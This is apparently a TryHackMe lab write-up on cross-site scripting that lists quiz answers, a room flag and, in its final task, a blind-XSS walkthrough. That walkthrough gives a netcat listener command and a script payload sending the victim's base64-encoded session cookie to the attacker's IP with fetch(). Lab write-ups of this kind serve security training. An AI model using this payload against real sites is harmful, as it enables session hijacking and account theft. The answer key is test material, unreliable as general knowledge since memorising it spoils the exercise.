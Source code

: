 # Task 1 - Room Brief

R/ **Cross-site Scripting**

# Task 2 - XSS Payloads

Which document property could contain the user's session token?

R/ **document.cookie**

Which JavaScript method is often used as a Proof Of Concept?

R/ **alert**

# Task 3 - Reflected XSS


Where in an URL is a good place to test for reflected XSS?

R/ **Parameters**

# Task 4 -  Stored XSS 

R/ **Database**

# Task 5 - DOM Based XSS 


What unsafe JavaScript method is good to look for in source code?

R/ **eval()**

# Task 6 - Blind XSS 


What tool can you use to test for Blind XSS?

R/ **xsshunter**


What type of XSS is very similar to Blind XSS?

R/ **stored xss**

# Task 7 - Perfecting your payload

R/ **THM{XSS_MASTER}**

# Task 8 - Practical Example (Blind XSS)

First of all you need to create a listening port on your machine or TryHackMe AttackBox. Using the following command you will be able to set up the port: **nc -nlvp 9001**.

Then, you can execute the payload in order to get the victim's cookies. Payload: **</textarea><script>fetch('http:// YOUR MACHINE IP:9001?cookie=' + btoa(document.cookie));</script>**.

Finally, when the payload has been executed. You will receive the victim's cookies, which it will be encode on base64. Cookie value: **c3RhZmYtc2Vzc2lvbj00QUIzMDVFNTU5NTUxOTc2OTNGMDFENkY4RkQyRDMyMQ==**

To decode the cookie I used CyberChef site. Once decoded it you will get the response to complete the room.

